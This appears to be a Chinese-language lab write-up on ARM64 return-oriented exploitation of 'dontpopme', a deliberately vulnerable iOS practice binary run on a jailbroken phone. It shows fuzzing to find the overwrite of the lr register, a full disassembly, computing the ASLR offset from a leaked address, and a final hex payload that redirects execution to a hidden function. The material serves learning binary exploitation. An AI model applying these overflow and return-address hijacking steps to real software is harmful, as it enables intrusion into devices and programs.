




# ARM64 ROP Chains - 0x00

学之前显看点基础的：

## Basic

- Memory Layout


- The Stack

    https://ctf101.org/binary-exploitation/what-is-the-stack/
    https://suelan.github.io/2020/08/18/20200817-ios-main-in-assembly/

- Buffer Overflow
    
    https://ctf101.org/binary-exploitation/buffer-overflow/



- ROP

    https://ctf101.org/binary-exploitation/return-oriented-programming/



## Hackit

- 文章：https://www.inversecos.com/2022/06/guide-to-reversing-and-exploiting-ios.html
- 源码：https://github.com/inversecos/ios-dontpopme/blob/main/dontpopme.c

### install `dontpopme`

因为我的 iOS 是基于 dopamine rootless jailbreak 源代码中的执行文件路径不可用，修改后： [dontpopme.c](./src//dontpopme.c)

- 编译：`sh buid.sh`
- 拷贝到手机📱。
- 设置权限 `chmod +x dontpopme`
- 运行测试：

```shell
# ./dontpopme
[*] LEAK! Main is at 0x102fc007c
[*] Enter your name and make sure you have uploaded resume.txt!!
zznQ
[*] Checking now for resume.txt..
[*] Your silly ass didnt upload a file.
```

### fuzz

这一步的主要目的是构造数据溢出buffer，找到覆盖 lr(x30) 寄存器值的部位。

1. 构造fuzz数据
```shell
echo AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIII > resume.txt
```
2. 通过lldb 查看进程崩溃数据



lr 寄存器值 => 0x4646464646454545 => hex() => FFFFFEEE => little endian => EEEFFFFF

这就是我们要替换的位置：`AAAAAAAABBBBBBBBCCCCCCCDDDDDDDDEEEEE<MALICIOUS ADDRESS>`

3. 找出函数地址

通过反编译工具查看：
```
./dontpopme:    file format mach-o arm64

Disassembly of section __TEXT,__text:

0000000100004000 <_change>:
100004000: a9bf7bfd     stp     x29, x30, [sp, #-16]!
100004004: 910003fd     mov     x29, sp
100004008: 90000000     adrp    x0, 0x100004000 <_change+0x8>
10000400c: 910bcc00     add     x0, x0, #755
100004010: 94000089     bl      0x100004234 <dyld_stub_binder+0x100004234>
100004014: 90000029     adrp    x9, 0x100008000 <_change+0x24>
100004018: 90000008     adrp    x8, 0x100004000 <_change+0x18>
10000401c: 910cc508     add     x8, x8, #817
100004020: f9003528     str     x8, [x9, #104]
100004024: 90000029     adrp    x9, 0x100008000 <_change+0x34>
100004028: 90000008     adrp    x8, 0x100004000 <_change+0x28>
10000402c: 910d1d08     add     x8, x8, #839
100004030: f9003928     str     x8, [x9, #112]
100004034: a8c17bfd     ldp     x29, x30, [sp], #16
100004038: d65f03c0     ret

000000010000403c <_runCode>:
10000403c: d10083ff     sub     sp, sp, #32
100004040: a9017bfd     stp     x29, x30, [sp, #16]
100004044: 910043fd     add     x29, sp, #16
100004048: 90000000     adrp    x0, 0x100004000 <_runCode+0xc>
10000404c: 910d2800     add     x0, x0, #842
100004050: 94000079     bl      0x100004234 <dyld_stub_binder+0x100004234>
100004054: 90000028     adrp    x8, 0x100008000 <_runCode+0x28>
100004058: f9403500     ldr     x0, [x8, #104]
10000405c: 90000028     adrp    x8, 0x100008000 <_runCode+0x30>
100004060: f9403901     ldr     x1, [x8, #112]
100004064: 910003e8     mov     x8, sp
100004068: f900011f     str     xzr, [x8]
10000406c: 94000060     bl      0x1000041ec <dyld_stub_binder+0x1000041ec>
100004070: a9417bfd     ldp     x29, x30, [sp, #16]
100004074: 910083ff     add     sp, sp, #32
100004078: d65f03c0     ret

000000010000407c <_main>:
10000407c: d10183ff     sub     sp, sp, #96
100004080: a9057bfd     stp     x29, x30, [sp, #80]
100004084: 910143fd     add     x29, sp, #80
100004088: 90000028     adrp    x8, 0x100008000 <_main+0x1c>
10000408c: f9400108     ldr     x8, [x8]
100004090: f9400108     ldr     x8, [x8]
100004094: f81f83a8     stur    x8, [x29, #-8]
100004098: 52800008     mov     w8, #0
10000409c: b90017e8     str     w8, [sp, #20]
1000040a0: b81ec3bf     stur    wzr, [x29, #-20]
1000040a4: b81e83a0     stur    w0, [x29, #-24]
1000040a8: f81e03a1     stur    x1, [x29, #-32]
1000040ac: 910003e9     mov     x9, sp
1000040b0: 90000008     adrp    x8, 0x100004000 <_main+0x34>
1000040b4: 9101f108     add     x8, x8, #124
1000040b8: f9000128     str     x8, [x9]
1000040bc: 90000000     adrp    x0, 0x100004000 <_main+0x40>
1000040c0: 910de400     add     x0, x0, #889
1000040c4: 9400005c     bl      0x100004234 <dyld_stub_binder+0x100004234>
1000040c8: 90000000     adrp    x0, 0x100004000 <_main+0x4c>
1000040cc: 910e4800     add     x0, x0, #914
1000040d0: 94000059     bl      0x100004234 <dyld_stub_binder+0x100004234>
1000040d4: 910003e9     mov     x9, sp
1000040d8: d10097a8     sub     x8, x29, #37
1000040dc: f9000128     str     x8, [x9]
1000040e0: 90000000     adrp    x0, 0x100004000 <_main+0x64>
1000040e4: 910f5000     add     x0, x0, #980
1000040e8: 94000056     bl      0x100004240 <dyld_stub_binder+0x100004240>
1000040ec: 90000000     adrp    x0, 0x100004000 <_main+0x70>
1000040f0: 910f6000     add     x0, x0, #984
1000040f4: 94000050     bl      0x100004234 <dyld_stub_binder+0x100004234>
1000040f8: b94017e1     ldr     w1, [sp, #20]
1000040fc: 90000000     adrp    x0, 0x100004000 <_main+0x80>
100004100: 910fec00     add     x0, x0, #1019
100004104: 94000037     bl      0x1000041e0 <dyld_stub_binder+0x1000041e0>
100004108: 71000008     subs    w8, w0, #0
10000410c: 1a9f07e8     cset    w8, ne
100004110: 370003e8     tbnz    w8, #0, 0x10000418c <_main+0x110>
100004114: 14000001     b       0x100004118 <_main+0x9c>
100004118: 90000000     adrp    x0, 0x100004000 <_main+0x9c>
10000411c: 91101800     add     x0, x0, #1030
100004120: 94000045     bl      0x100004234 <dyld_stub_binder+0x100004234>
100004124: 90000000     adrp    x0, 0x100004000 <_main+0xa8>
100004128: 910fec00     add     x0, x0, #1019
10000412c: 90000001     adrp    x1, 0x100004000 <_main+0xb0>
100004130: 9110c821     add     x1, x1, #1074
100004134: 94000034     bl      0x100004204 <dyld_stub_binder+0x100004204>
100004138: f90013e0     str     x0, [sp, #32]
10000413c: f94013e0     ldr     x0, [sp, #32]
100004140: d2800001     mov     x1, #0
100004144: f90007e1     str     x1, [sp, #8]
100004148: 52800042     mov     w2, #2
10000414c: 94000034     bl      0x10000421c <dyld_stub_binder+0x10000421c>
100004150: f94013e0     ldr     x0, [sp, #32]
100004154: 94000035     bl      0x100004228 <dyld_stub_binder+0x100004228>
100004158: f94007e1     ldr     x1, [sp, #8]
10000415c: f9000fe0     str     x0, [sp, #24]
100004160: f94013e0     ldr     x0, [sp, #32]
100004164: 52800002     mov     w2, #0
100004168: 9400002d     bl      0x10000421c <dyld_stub_binder+0x10000421c>
10000416c: f9400fe2     ldr     x2, [sp, #24]
100004170: f94013e3     ldr     x3, [sp, #32]
100004174: d10043a0     sub     x0, x29, #16
100004178: d2800021     mov     x1, #1
10000417c: 94000025     bl      0x100004210 <dyld_stub_binder+0x100004210>
100004180: f94013e0     ldr     x0, [sp, #32]
100004184: 9400001d     bl      0x1000041f8 <dyld_stub_binder+0x1000041f8>
100004188: 14000005     b       0x10000419c <_main+0x120>
10000418c: 90000000     adrp    x0, 0x100004000 <_main+0x110>
100004190: 9110d400     add     x0, x0, #1077
100004194: 94000028     bl      0x100004234 <dyld_stub_binder+0x100004234>
100004198: 14000001     b       0x10000419c <_main+0x120>
10000419c: 97ffffa8     bl      0x10000403c <_runCode>
1000041a0: f85f83a9     ldur    x9, [x29, #-8]
1000041a4: 90000028     adrp    x8, 0x100008000 <_main+0x138>
1000041a8: f9400108     ldr     x8, [x8]
1000041ac: f9400108     ldr     x8, [x8]
1000041b0: eb090108     subs    x8, x8, x9
1000041b4: 1a9f17e8     cset    w8, eq
1000041b8: 37000068     tbnz    w8, #0, 0x1000041c4 <_main+0x148>
1000041bc: 14000001     b       0x1000041c0 <_main+0x144>
1000041c0: 94000005     bl      0x1000041d4 <dyld_stub_binder+0x1000041d4>
1000041c4: 52800000     mov     w0, #0
1000041c8: a9457bfd     ldp     x29, x30, [sp, #80]
1000041cc: 910183ff     add     sp, sp, #96
1000041d0: d65f03c0     ret

Disassembly of section __TEXT,__stubs:

00000001000041d4 <__stubs>:
1000041d4: 90000030     adrp    x16, 0x100008000 <__stubs+0x10>
1000041d8: f9400a10     ldr     x16, [x16, #16]
1000041dc: d61f0200     br      x16
1000041e0: 90000030     adrp    x16, 0x100008000 <__stubs+0x1c>
1000041e4: f9400e10     ldr     x16, [x16, #24]
1000041e8: d61f0200     br      x16
1000041ec: 90000030     adrp    x16, 0x100008000 <__stubs+0x28>
1000041f0: f9401210     ldr     x16, [x16, #32]
1000041f4: d61f0200     br      x16
1000041f8: 90000030     adrp    x16, 0x100008000 <__stubs+0x34>
1000041fc: f9401610     ldr     x16, [x16, #40]
100004200: d61f0200     br      x16
100004204: 90000030     adrp    x16, 0x100008000 <__stubs+0x40>
100004208: f9401a10     ldr     x16, [x16, #48]
10000420c: d61f0200     br      x16
100004210: 90000030     adrp    x16, 0x100008000 <__stubs+0x4c>
100004214: f9401e10     ldr     x16, [x16, #56]
100004218: d61f0200     br      x16
10000421c: 90000030     adrp    x16, 0x100008000 <__stubs+0x58>
100004220: f9402210     ldr     x16, [x16, #64]
100004224: d61f0200     br      x16
100004228: 90000030     adrp    x16, 0x100008000 <__stubs+0x64>
10000422c: f9402610     ldr     x16, [x16, #72]
100004230: d61f0200     br      x16
100004234: 90000030     adrp    x16, 0x100008000 <__stubs+0x70>
100004238: f9402a10     ldr     x16, [x16, #80]
10000423c: d61f0200     br      x16
100004240: 90000030     adrp    x16, 0x100008000 <dyld_stub_binder+0x100004250>
100004244: f9402e10     ldr     x16, [x16, #88]
100004248: d61f0200     br      x16

Disassembly of section __TEXT,__stub_helper:

000000010000424c <__stub_helper>:
10000424c: 90000031     adrp    x17, 0x100008000 <__stub_helper+0x10>
100004250: 91018231     add     x17, x17, #96
100004254: a9bf47f0     stp     x16, x17, [sp, #-16]!
100004258: 90000030     adrp    x16, 0x100008000 <__stub_helper+0x1c>
10000425c: f9400610     ldr     x16, [x16, #8]
100004260: d61f0200     br      x16
100004264: 18000050     ldr     w16, 0x10000426c <__stub_helper+0x20>
100004268: 17fffff9     b       0x10000424c <__stub_helper>
10000426c: 00000000     udf     #0
100004270: 18000050     ldr     w16, 0x100004278 <__stub_helper+0x2c>
100004274: 17fffff6     b       0x10000424c <__stub_helper>
100004278: 00000018     udf     #24
10000427c: 18000050     ldr     w16, 0x100004284 <__stub_helper+0x38>
100004280: 17fffff3     b       0x10000424c <__stub_helper>
100004284: 00000026     udf     #38
100004288: 18000050     ldr     w16, 0x100004290 <__stub_helper+0x44>
10000428c: 17fffff0     b       0x10000424c <__stub_helper>
100004290: 00000033     udf     #51
100004294: 18000050     ldr     w16, 0x10000429c <__stub_helper+0x50>
100004298: 17ffffed     b       0x10000424c <__stub_helper>
10000429c: 00000041     udf     #65
1000042a0: 18000050     ldr     w16, 0x1000042a8 <__stub_helper+0x5c>
1000042a4: 17ffffea     b       0x10000424c <__stub_helper>
1000042a8: 0000004e     udf     #78
1000042ac: 18000050     ldr     w16, 0x1000042b4 <__stub_helper+0x68>
1000042b0: 17ffffe7     b       0x10000424c <__stub_helper>
1000042b4: 0000005b     udf     #91
1000042b8: 18000050     ldr     w16, 0x1000042c0 <__stub_helper+0x74>
1000042bc: 17ffffe4     b       0x10000424c <__stub_helper>
1000042c0: 00000068     udf     #104
1000042c4: 18000050     ldr     w16, 0x1000042cc <__stub_helper+0x80>
1000042c8: 17ffffe1     b       0x10000424c <__stub_helper>
1000042cc: 00000075     udf     #117
1000042d0: 18000050     ldr     w16, 0x1000042d8 <__stub_helper+0x8c>
1000042d4: 17ffffde     b       0x10000424c <__stub_helper>
1000042d8: 00000083     udf     #131
```

- main -> 0x10000407c
- runCode -> 0x10000403c

4. 计算偏移量

这是运行时 main 函数的地址：
```bash
# ./dontpopme 
[*] LEAK! Main is at 0x102fc007c
[*] Enter your name and make sure you have uploaded resume.txt!!
```

偏移量 = 0x102fc007c - 0x10000407c
runCode地址 = 0x10000403c + 偏移量

5. 攻击！！！
```bash
echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x42\x42\x42\x42\x43\x43\x43\x43\x43\x43\x43\x43\x44\x44\x44\x44\x44\x44\x44\x44\x45\x45\x45\x45\x45\x3C\x00\xFC\x02\x01\x00\x00\x00" > resume.txt
```


